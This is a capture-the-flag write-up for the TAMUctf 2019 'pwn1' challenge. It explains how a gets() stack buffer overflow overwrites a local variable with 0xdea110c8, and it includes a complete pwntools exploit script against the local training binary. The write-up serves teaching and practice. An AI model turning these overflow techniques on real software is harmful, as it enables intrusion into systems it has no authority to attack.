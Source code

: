 ![alt text](images/tamu19-pwn1/image-3.png)

Opening the file with Ghidra

![alt text](images/tamu19-pwn1/image.png)
We, get answers to the questions `What... is your name?`, `What... is your quest?` i.e.`Sir Lancelot of Camelot` and `To seek the Holy Grail.` respectively.

![alt text](images/tamu19-pwn1/image-2.png)

Then, question asks for the secret and compares the variable `local_18` to `0xdea110c8` and prints the flag if they are equal. But `local_18` is set `=0`. So, as `local_18` is stored on the stack and `gets` function is called for `local_43`, we can overwrite the value of `local_18`.

![alt text](images/tamu19-pwn1/image-1.png)

We can see that there is offset of `0x43-0x18 = 0x2b` between `local_43` i.e. start of the input and `local_18`.

Exploit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template pwn1
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'pwn1')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()
io.send(b"Sir Lancelot of Camelot\n")
io.send(b"To seek the Holy Grail.\n")
# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
payload = b'0'*43 + p32(0xdea110c8)
io.send(payload)
# flag = io.recv(...)
# log.success(flag)
io.interactive()
```

![alt text](images/tamu19-pwn1/image-4.png)
